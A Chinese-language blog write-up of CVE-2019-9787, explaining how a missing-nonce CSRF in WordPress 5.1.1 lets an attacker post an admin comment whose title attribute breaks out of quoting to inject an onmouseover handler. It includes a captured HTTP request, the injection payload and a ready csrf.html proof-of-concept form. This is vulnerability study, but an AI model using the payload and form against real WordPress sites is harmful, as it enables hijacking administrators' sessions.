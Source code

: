 ```yaml
---
layout: post
title: "CVE-2019-9787 (WordPress 5.1.1 CSRF to RCE)"
description: ""
date: 2023-07-11
categories:
  - CVE
  - WordPress
author: ""
tags: ['CVE', 'WordPress', 'CSRF']
---
```




# CVE-2019-9787 (WordPress 5.1.1 CSRF to RCE)

###### tags: `CVE` `wordpress`



這題的雖說是csrf + rce


rce 的部分是xss完成的。



先講解流程

admin 帳號評論文章是可以不被xss過慮的，也就是說admin 可以想說啥說啥，但其他帳號無法造成xss，觸發要用csrf 誘騙 admin





可以觸發 js
```
<a onmouseover=alert(1)>777777777
```



csrf能成功原因在於 admin 帳號還有個缺陷，



amdin 在post 評論時會送出5個 POST 其中 _wp_unfiltered_html_comment 為一個 nonce值隨機數 是用來防止 csrf的，但 CVE-2019-9787 告訴我們 即使 _wp_unfiltered_html_comment 為空還是可以發送評論。

據說是因為WordPress其中有一些特殊的功能例如trackbacks and pingbacks會受到該值的影響






```
comment=
&submit=
&comment_post_ID=
&comment_parent=
&_wp_unfiltered_html_comment=

```




csrf 先放一邊，我們先看看 xss 造成的rce



測試無害payload:

```
<a title='123' rel='666'>777777777
```


bp: (記得把_wp_unfiltered_html_comment) 值改空 模擬nonce 對 csrf的防禦
```http=
POST /wp-comments-post.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 176
Origin: http://localhost
Connection: close
Referer: http://localhost/2023/03/15/test/
Cookie: NpHtD_admin_username=5ff7iIi-qmkChcz4NUr-kAi4nK3Gaf-9sUzunOpdPywIcQ; NpHtD_siteid=5ff7iIi-qmkChcz4NR_5kwG7kq3ENars4k-8zb0N; NpHtD_userid=d404pX26NdX1MOvSkXSZBq25rNZbU8jE1CR_2MsR; NpHtD_admin_email=6b11eaWkej43f_CT9zl4bs_woPde_o10IQal8a90uQ14uAi5ENu_Tg; NpHtD_sys_lang=6b11eaWkej43f_CT928sa837o_VZ8dlycVTyovg_4xNb5w; wp-settings-1=libraryContent%3Dbrowse%26mfold%3Do%26editor%3Dtinymce; wp-settings-time-1=1678692933; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=admin%7C1679030902%7CJys6wpCl06krsAq95HvzB8v4F48Cdfct8Al74qIJvwU%7C45c5e73deec696ee9ece5dc75a35f50ddba363dee67cab97b9d1221e69a6e527; XDEBUG_SESSION=sublime.xdebug
Upgrade-Insecure-Requests: 1

comment=%3Ca+title%3D%27123%27+rel%3D%27666%27%3E777777777&submit=%E5%8F%91%E8%A1%A8%E8%AF%84%E8%AE%BA&comment_post_ID=4&comment_parent=0&_wp_unfiltered_html_comment=
```



這裡快速跟蹤的方法狂按f8 值到看到我們的相關數據出現開始才慢慢走


關鍵函數:
wp_rel_nofollow_callback()
看到這個函數我們還是很開心的，最後 return 居然是拼接的，那我們可以注入嗎，保持這個想法。

```php=
//wp-includes/formatting.php



function wp_rel_nofollow_callback( $matches ) {
	$text = $matches[1];
	$atts = shortcode_parse_atts( $matches[1] );
	$rel  = 'nofollow';

	if ( preg_match( '%href=["\'](' . preg_quote( set_url_scheme( home_url(), 'http' ) ) . ')%i', $text ) ||
	     preg_match( '%href=["\'](' . preg_quote( set_url_scheme( home_url(), 'https' ) ) . ')%i', $text )
	) {
		return "<a $text>";
	}

	if ( ! empty( $atts['rel'] ) ) {
		$parts = array_map( 'trim', explode( ' ', $atts['rel'] ) );
		if ( false === array_search( 'nofollow', $parts ) ) {
			$parts[] = 'nofollow';
		}
		$rel = implode( ' ', $parts );
		unset( $atts['rel'] );

		$html = '';
		foreach ( $atts as $name => $value ) {
			$html .= "{$name}=\"$value\" ";
		}
		$text = trim( $html );
	}
	return "<a $text rel=\"$rel\">";
}
```


你用 phpstorm 走到要 return之前 關鍵查看 兩個變數

```htmlembedded=
$text = "title="123""
$rel = "666 nofollow"
```

有點奇怪阿，看不清楚對不對，我們把兩側的雙引號再分開一點

```htmlembedded=
$text = "     title="123"      "
$rel = "    666 nofollow      "
```

所以最後拼接會是

```htmlembedded=

return "<a $text rel=\"$rel\">";

對比

<a title="123" rel=\"666 nofollow\">


    
```

所以知道最後又拼接回原樣，但我們很雞賊。

\" 雙引號閉合
插入 onmouseover=alert(1)
插入 id=\"  閉合後面的雙引號

payload:
```hmtl=
"     onmouseover=alert(1)       id="
```


```hmtl=

<a title="12"     onmouseover=alert(1)       id="   3"        rel=\"666 nofollow\">

```



回到一開始我們無害的a tag 然後構造 title 屬性
```htmlembedded=
<a title='123' rel='666'>777777777

<a title='12"     onmouseover=alert(1)       id="3' rel='666'>777777777



```




可以開始構造csrf

```
comment=
&submit= // 這裡可以不要
&comment_post_ID=
&comment_parent=
&_wp_unfiltered_html_comment= // 這裡為空

```





payload:
由我們用了雙引號閉合，所以我們在製作csrf comment 的 value=\"\" 也會被影響，所以用html encode
```
<a title='12"     onmouseover=alert(1)       id="3' rel='666'>88888888888
```


### csrf.html
注意:comment_post_ID 這邊我沒測試過是不是通用你可以根據自己環境改變
```hmtl=

<html>
  <body>
    <form action="http://localhost/wp-comments-post.php" method="POST">
      <input type="hidden" name="comment" value="&#x3c;&#x61;&#x20;&#x74;&#x69;&#x74;&#x6c;&#x65;&#x3d;&#x27;&#x31;&#x32;&#x22;&#x20;&#x20;&#x20;&#x20;&#x20;&#x6f;&#x6e;&#x6d;&#x6f;&#x75;&#x73;&#x65;&#x6f;&#x76;&#x65;&#x72;&#x3d;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x69;&#x64;&#x3d;&#x22;&#x33;&#x27;&#x20;&#x72;&#x65;&#x6c;&#x3d;&#x27;&#x36;&#x36;&#x36;&#x27;&#x3e;&#x38;&#x38;&#x38;&#x38;&#x38;&#x38;&#x38;&#x38;&#x38;&#x38;&#x38;" />
      <input type="hidden" name="comment_post_ID" value="4" />
      <input type="hidden" name="comment_parent" value="0" />
      <input type="hidden" name="_wp_unfiltered_html_comment" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```




此時點開 csrf 頁面就會添加一個留言，滑鼠移過去觸發xss。








心得:
此篇整理花了我一些時間，最主要是payload 網上給的不起作用，所以我自己慢慢測試。還有許多可以說明的地方沒說，不過也沒測試過xss 攻擊payload 需不需要特殊繞過。(我感覺還是會被過濾很多字元)


這篇有題到後續payload 要如何慮利用，但我也沒測試過
https://ironhackers.es/en/tutoriales/wordpress-5-1-csrf-xss-rce-poc/







參考文章:
https://www.freebuf.com/vuls/198346.html
https://www.hackbase.net/security/exploit/260488.html















